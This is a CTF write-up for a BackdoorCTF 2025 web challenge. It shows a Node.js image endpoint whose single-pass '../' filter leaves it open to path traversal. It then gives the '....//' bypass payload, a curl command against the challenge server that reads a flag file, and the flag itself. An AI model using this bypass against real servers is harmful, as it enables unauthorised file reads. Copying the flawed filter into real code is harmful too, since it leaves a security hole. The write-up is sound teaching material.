


## BackdoorCTF 2025 - Image Gallery Write-up



### Step 1: Initial Analysis and Source Code Review

The challenge provides us with a simple image gallery web application. We are given the source code (`server.js`) and a Docker environment. The goal is to find a secret hidden behind the scenes.

Analyzing the `server.js` file, we identify a specific endpoint `/image` that is responsible for serving files. It takes a `file` parameter from the query string to determine which image to display from the `images` directory.

The code includes a sanitization mechanism to prevent **Directory Traversal (Path Traversal)** attacks, attempting to stop users from accessing files outside the intended directory:

```javascript
app.get('/image', (req, res) => {
  let file = req.query.file || '';

  // ... decoding ...

  file = file.replace(/\\/g, '/');

  // Vulnerable Sanitization
  file = file.split('../').join('');

  const resolved = path.join(BASE_DIR, file);

  fs.readFile(resolved, (err, data) => {
      // ... serving file ...
  });
});
```

### Step 2: Identifying the Vulnerability

The vulnerability lies in the way the application filters the `../` sequence. The line `file.split('../').join('')` removes occurrences of `../`, but it does so **non-recursively**. This means it only performs the removal once.

If an attacker constructs a payload that forms a `../` sequence *after* the initial removal, the filter is bypassed.

**The Bypass Logic:**
If we send the string `....//`:
1. The `split('../')` function identifies the `../` in the middle.
2. It splits the string into `..` and `/`.
3. The `join('')` function merges them back together.
4. The result is `../`, which is exactly what we need for directory traversal.

### Step 3: Crafting the Payload

We know the application runs inside a Docker container. The `Dockerfile` indicates the working directory is `/app`, and the images are stored in `/app/images` (`BASE_DIR`). Typically, flags in such challenges are located in the root or a separate secret folder.

Based on the structure, we need to go up one level from `images` and access the `secret` directory.

Target path: `../secret/flag.txt`
Bypass payload: `....//secret//flag.txt`

The final URL construction looks like this:
```
http://104.198.24.52:6012/image?file=....//secret//flag.txt
```

### Step 4: Exploitation and Retrieving the Flag

We can use `curl` to send the crafted request to the server. By injecting the bypass sequence, we force the server to read the `flag.txt` file instead of an image.

```bash
curl "http://104.198.24.52:6012/image?file=....//secret//flag.txt"
```

The server processes the path, fails to fully sanitize it, resolves the file path to `/app/secret/flag.txt`, and returns the content.



### Flag
`flag{sTr1pp1ng_d0Ts_and_SLasH3s_d03sNt_sTr1p_bUgs}`